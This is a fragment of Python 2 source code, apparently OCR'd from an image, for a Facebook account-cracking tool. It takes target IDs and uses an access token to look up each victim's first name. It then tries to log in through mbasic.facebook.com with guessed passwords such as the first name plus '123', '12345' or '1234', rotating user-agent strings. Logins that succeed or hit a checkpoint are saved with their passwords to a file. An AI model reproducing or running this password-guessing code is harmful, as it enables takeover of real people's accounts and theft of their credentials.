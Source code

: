 	print '\033[0;97m   • \033[0;97mJumlah ID\033[0;97m :\033[0;97m '+str(len(id))
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	
### MAIN BANGLADESH ###
	def main(arg):
		global CP,oks
		em = arg
		try:
			os.mkdir('done')
		except OSError:
			pass
		try:
			an = requests.get('https://graph.facebook.com/'+em+'/?access_token='+toket)
			v = json.loads(an.text)
			pz = v['first_name'].lower()+'123'
			rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz, "login" : "submit"}, headers = { "user-agent" : "Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"})
			xo = rex.content
			if 'mbasic_logout_button' in xo or 'save-device' in xo:
				print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz
				oke = open('done/bangla.txt', 'a')
				oke.write('\n   [OK] '+em+' • '+pz)
				oke.close()
				oks.append(em)
			else :
				if 'checkpoint' in xo:
					print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz
					cek = open('done/bangla.txt', 'a')
					cek.write('\n   [CP] '+em+' • '+pz)
					cek.close()
					CP.append(em)
				else:
					pz2 = v['first_name'].lower()+'12345'
					rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz2, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36"})
					xo = rex.content
					if 'mbasic_logout_button' in xo or 'save-device' in xo:
						print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz2
						oke = open('done/bangla.txt', 'a')
						oke.write('\n   [OK] '+em+' • '+pz2)
						oke.close()
						oks.append(em)
					else:
						if 'checkpoint' in xo:
							print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz2
							cek = open('done/bangla.txt', 'a')
							cek.write('\n   [CP] '+em+' • '+pz2)
							cek.close()
							CP.append(em)
						else:
							pz3 = v['first_name'].lower()+'1234'
							rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz3, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 6.0.1; SM-G532G Build/MMB29T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.83 Mobile Safari/537.36"})
							xo = rex.content
							if 'mbasic_logout_button' in xo or 'save-device' in xo:
								print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz3
								oke = open('done/bangla.txt', 'a')
								oke.write('\n   [OK] '+em+' • '+pz3)
								oke.close()